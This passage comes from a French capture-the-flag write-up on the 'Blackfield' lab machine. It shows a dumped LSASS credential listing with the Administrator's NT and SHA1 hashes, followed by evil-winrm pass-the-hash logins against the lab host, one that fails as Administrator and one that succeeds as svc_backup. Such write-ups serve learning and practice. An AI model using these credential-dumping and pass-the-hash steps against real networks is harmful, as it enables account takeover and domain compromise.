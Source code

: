	
	...
	
	== LogonSession ==
	authentication_id 153705 (25869)
	session_id 1
	username Administrator
	domainname BLACKFIELD
	logon_server DC01
	logon_time 2020-02-23T17:59:04.506080+00:00
	sid S-1-5-21-4194615774-2175524697-3563712290-500
	luid 153705
		    == MSV ==
		            Username: Administrator
		            Domain: BLACKFIELD
		            LM: NA
		            NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		            SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
		    == WDIGEST [25869]==
		            username Administrator
		            domainname BLACKFIELD
		            password None
		    == SSP [25869]==
		            username 
		            domainname 
		            password None
		    == Kerberos ==
		            Username: Administrator
		            Domain: BLACKFIELD.LOCAL
		            Password: None
		    == WDIGEST [25869]==
		            username Administrator
		            domainname BLACKFIELD
		            password None

Je tente une connexion, mais ce ne sera pas aussi simple :) Le mot de passe de Administrator a pu (et a dû) être renouvelé récemment.

	kali@kali:~/Blackfield$ evil-winrm -i 10.10.10.192 -u administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
	
	Evil-WinRM shell v2.3
	Info: Establishing connection to remote endpoint
	Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
	Error: Exiting with code 1

### Connexion en tant que svc_backup

C'est ok en revanche avec le compte svc_backup

	kali@kali:~/Blackfield$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
	Evil-WinRM shell v2.3
	Info: Establishing connection to remote endpoint
	